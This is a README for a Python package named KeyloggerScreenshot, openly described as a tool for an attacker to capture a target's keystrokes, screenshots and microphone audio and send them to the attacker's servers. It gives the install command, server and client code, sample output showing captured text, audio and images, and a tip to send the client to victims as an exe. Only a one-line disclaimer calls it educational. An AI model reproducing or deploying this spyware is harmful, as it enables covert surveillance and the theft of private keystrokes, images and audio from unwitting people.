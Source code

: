 KeyloggerScreenshot
===================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. Follow the instructions to build your own server in "KeyloggerScreenshot"

To install KeyloggerScreenshot simply type:

`pip install KeyloggerScreenshot`

In your terminal

HOW DOES KeyloggerScreenshot WORK?
==================================

This module can be used in Windows and Linux

The servers can now be run in the same file with the module threading

The port number for each server should be different

The server should obviously be run before the client

For example:
===========
-------
Servers
------
```python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip_photos, port_photos = "127.0.0.1", 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = "127.0.0.1", 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = "127.0.0.1", 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = "127.0.0.1", 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()

```

Every screenshots, photos and audio files will be saved locally where your server is located

Client_Target
-------------
```python
#client_target.py
import KeyloggerScreenshot as ks

key_client = ks.KeyloggerTarget("127.0.0.1", 1111, "127.0.0.1", 2222, "127.0.0.1", 3333,"127.0.0.1", 4444)
key_client.start()

```

Output
------
```python
"""
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...

"""
```

Your current directory
---------------------
![img_1.png](img_1.png)

Additional
==========
* You can send "client_target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. I BUILD IT FOR EDUCATIONAL PURPOSES.